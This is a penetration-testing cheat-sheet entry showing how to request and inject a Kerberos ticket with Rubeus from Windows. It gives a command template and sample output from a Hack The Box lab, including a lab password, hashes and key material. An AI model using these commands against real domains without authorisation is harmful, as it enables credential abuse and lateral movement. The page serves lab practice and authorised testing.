 
### Kerberos Ticket (From Windows)

{{< tab set4 tab1 >}}rubeus{{< /tab >}}
{{< tabcontent set4 tab1 >}}

#### 1. Request a Ticket

{{< tab set4-1 tab1 active >}}Password{{< /tab >}}{{< tab set4-1 tab2 >}}NTLM{{< /tab >}}
{{< tabcontent set4-1 tab1 >}}

```console
.\rubeus.exe asktgt /user:<USER> /password:'<PASSWORD>' /enctype:<ENC_TYPE> /domain:<DOMAIN> /dc:<DC> /ptt /nowrap
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> .\rubeus.exe asktgt /user:m.lovegod /password:'AbsoluteLDAP2022!' /enctype:AES256 /domain:ABSOLUTE.HTB /dc:DC.ABSOLUTE.HTB /ptt /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 7455663292585851686A2C8B2DF22DCA5B0A3E84404DD480466E982E49B10554
[*] Building AS-REQ (w/ preauth) for: 'ABSOLUTE.HTB\m.lovegod'
[*] Using domain controller: fe80::71ce:9b94:4962:d202%11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFpDCCBa ---[SNIP]--- VURS5IVEI=

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/ABSOLUTE.HTB
  ServiceRealm             :  ABSOLUTE.HTB
  UserName                 :  m.lovegod
  UserRealm                :  ABSOLUTE.HTB
  StartTime                :  9/24/2024 7:08:14 AM
  EndTime                  :  9/24/2024 11:08:14 AM
  RenewTill                :  9/24/2024 11:08:14 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  u2ScGZUzmFdmTGETruj0VhWSGwiKTg7dbQVabz0QZU8=
  ASREP (key)              :  7455663292585851686A2C8B2DF22DCA5B0A3E84404DD480466E982E49B10554
```
